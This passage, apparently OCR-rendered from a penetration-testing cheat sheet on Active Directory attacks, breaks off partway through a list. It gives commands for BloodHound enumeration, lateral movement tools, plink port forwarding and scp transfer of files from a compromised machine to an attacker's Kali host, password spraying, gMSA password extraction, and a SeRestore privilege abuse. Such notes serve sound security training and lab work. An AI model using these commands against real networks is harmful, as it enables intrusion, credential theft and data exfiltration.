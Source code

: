 
We can use bloodhound\-pythonto enumerate bloodhound without access to the machine, only having valid creds of an unprivileged user:

```
 bloodhound-python -d {domain name} -ns {dc-ip} -c All -u {user} -p
{password} --zip 
 ```


Try moving lateraly with:
\- RDP
\- WinRM
\- PSExec \(we can do it from kali with **psexec\.py**\- **impacket\-psexec**\)
\- RunAS: [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas#runascs](#https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas#runascs)


### File Transfer 

We can transfer files from the machine by port forwarding SCP port 6000 to 22 kali \(from the Pivot Machine\):

```
 .\plink.exe -ssh -l kali -pw "password" -N -L
0.0.0.0:6000:127.0.0.1:22 {kali IP} 
 ```


If we don't have an interactive shell, we can use this to transfer using **scp**:
Then we can transfer the files from the attacked machine:

```
 echo "y" | .\scp.exe -P 6000 file kali@{pivot IP}:file # this is to
accespt the key
echo "password" | .\scp.exe -P 6000 file kali@{pivot IP}:file # the
actual transfer 
 ```


\!Always use **scp**from **putty**\(pscp\.exe\)\.

### STUCK? 

\-  Try **spraying the credentials**, maybe a password is reused by another user \(but **watch out for account lockouts**\)
\- Check for password reusal

### Interesting Cases 

If we find that we have **PrincipalsAllowedToRetrieveManagedPassword**\(we have an allowed group\) permissions to extract passwords, use: [https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe](#https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe)
\.

If we have **SeRestore**permissions, follow this:
1\. Now we will be able to access anything from **C:\\Windows\\System32**\.
2\. Now, we will replace utilman with CMD:

